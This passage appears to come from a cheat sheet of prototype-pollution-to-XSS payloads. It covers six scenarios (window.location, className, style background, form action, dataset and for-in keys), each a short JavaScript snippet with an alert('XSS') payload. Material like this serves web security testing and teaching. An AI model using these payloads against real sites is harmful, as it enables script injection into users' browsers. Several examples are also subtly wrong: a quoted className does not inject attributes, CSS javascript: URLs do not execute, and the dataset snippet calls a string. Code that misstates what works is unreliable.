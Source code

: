 
### 11. Location Pollution
**Scenario**: Polluted property manipulates `window.location`.
```javascript
Object.prototype.href = 'javascript:alert("XSS")';
const link = {};
window.location = link.href; // XSS
```

---

### 12. Polluted ClassName
**Scenario**: Polluted property used in `className` leads to script execution via CSS.
```javascript
Object.prototype.className = 'x" onmouseover="alert(\'XSS\')';
const div = {};
document.getElementById('target').className = div.className; // XSS on hover
```

---

### 13. Polluted Style Property
**Scenario**: Polluted style property executes JavaScript.
```javascript
Object.prototype.background = 'url(javascript:alert("XSS"))';
const elem = {};
document.body.style.background = elem.background; // XSS
```

---

### 14. Form Action Pollution
**Scenario**: Polluted form action executes script.
```javascript
Object.prototype.action = 'javascript:alert("XSS")';
const form = {};
document.forms[0].action = form.action; // XSS on submit
```

---

### 15. Polluted Dataset Property
**Scenario**: Polluted dataset triggers script via DOM manipulation.
```javascript
Object.prototype.dataset = { onclick: 'alert("XSS")' };
const obj = {};
document.body.dataset.onclick = obj.dataset.onclick;
document.body.innerHTML = '<div onclick="this.dataset.onclick()">Test</div>'; // XSS on click
```

---

### 16. Polluted Object Keys in Loop
**Scenario**: Polluted keys rendered unsafely in a loop.
```javascript
Object.prototype恶意 = '<script>alert("XSS")</script>';
const obj = {};
for (let key in obj) {
  document.write(obj[key]); // XSS
}
```

---